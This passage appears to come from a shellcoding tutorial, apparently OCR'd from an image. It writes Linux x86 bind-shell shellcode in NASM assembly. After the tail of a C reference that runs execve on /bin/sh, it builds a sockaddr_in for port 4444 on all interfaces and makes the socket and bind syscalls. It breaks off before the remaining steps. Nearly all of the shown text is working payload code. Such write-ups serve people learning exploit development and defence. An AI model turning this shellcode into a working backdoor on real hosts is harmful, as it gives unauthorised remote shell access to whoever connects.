 ```c
    // Execute /bin/sh
    execve("/bin/sh", NULL, NULL);
}
```

Now, let's get to work.
=

The assembly code
-
The first step is to initialize the stack and the registers:
```nasm
;set the stack pointer

mov ebp, esp

;initialize registers to zero

xor eax, eax
xor ebx, ebx
xor ecx, ecx
xor edx, edx
```

The second step is to push the sockaddr_in struct in the stack:
```nasm
;Push sockaddr_in struct on the stack
;struct sockaddr_in addr;
;addr.sin_family = AF_INET;
;addr.sin_port = htons(4444);
;addr.sin_addr.s_addr = INADDR_ANY;

push eax
push eax            ;fill the end of the structure with 8 zeros
push eax            ;addr.sin_addr.s_addr = INADDR_ANY 
push word 0x5c11    ;addr.sin_port = htons(4444)
push word 0x02      ;addr.sin_family = AF_INET
```

We can now call the "socket" systemcall which will create an endpoint for communication:
```nasm
;int sockfd = socket(AF_INET, SOCK_STREAM, 0);

mov ax, 0x167   ;socket syscall number
mov bl, 0x02    ;AF_INET value
mov cl, 0x01    ;SOCK_STREAM value
int 0x80        ;Go for it
mov edi, eax    ;return value from the socket syscall
```

Then, we need to call the "bind" systemcall which will bind to the socket:
```nasm
;bind(sockfd, (struct sockaddr *)&addr, sizeof(addr));

xor eax, eax
mov ax, 0x169   ;bind system call number
mov ebx, edi    ;sockfd 
mov ecx, esp    ;point to the start of the stack
mov edx, ebp
sub edx, esp    ;use the stack pointers (esp and ebp to calculate the sizeof the structure)
int 0x80        ;Go for it
```
